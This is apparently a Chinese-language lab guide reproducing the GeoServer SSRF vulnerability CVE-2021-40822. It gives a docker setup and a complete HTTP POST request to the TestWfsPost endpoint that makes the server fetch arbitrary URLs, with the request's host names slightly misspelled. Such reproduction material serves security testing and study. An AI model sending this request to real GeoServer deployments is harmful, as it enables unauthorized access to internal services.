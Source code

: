 # GeoServer 未授权SSRF漏洞（CVE-2021-40822）

GeoServer 是 OpenGIS Web 服务器规范的 J2EE 实现，利用 GeoServer 可以方便的发布地图数据，允许用户对特征数据进行更新、删除、插入操作。

在GeoServer 2.19.3、2.18.5和2.17.6版本之前，WMS GetMap请求中存在服务器端请求伪造（SSRF）漏洞。攻击者可以利用此漏洞通过GeoServer服务器向内部或外部服务发送请求。

参考链接：

- <https://github.com/geoserver/geoserver/security/advisories/GHSA-7g5f-wrx8-5ccf>
- <https://nvd.nist.gov/vuln/detail/CVE-2021-40822>

## 漏洞环境

执行如下命令启动一个GeoServer 2.19.1服务器：

```
docker compose up -d
```

服务启动后，你可以在`http://your-ip:8080/geoserver`查看到GeoServer的默认页面。

## 漏洞复现

漏洞存在于TestWfsPost接口中。攻击者可以利用`url`参数使服务器向任意URL发送请求。该接口接受以下参数：

- `url`：GeoServer将要发送请求的目标URL
- `body`：要发送的请求体内容。如果此参数为空，GeoServer将发送GET请求；如果包含任何值，则GeoServer将发送POST请求
- `username`：基础认证的用户名（可选）
- `password`：基础认证的密码（可选）

发送如下请求来复现漏洞：

```
POST /geoserver/TestWfsPost HTTP/1.1
Host: internal
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 96

form_hf_0=&url=http://interal/geoserver/../&body=testtest&username=admin&password=admin
```

比如，使用`google.com`作为目标URL，你将看到`google.com`的响应。

![](1.png)

> 注意：`url`参数中的主机名必须与请求中的`Host`头部值相同，否则GeoServer会返回错误。例如，如果`url`参数中的主机名是`internal`，那么请求中的`Host`头部值也必须是`internal`。
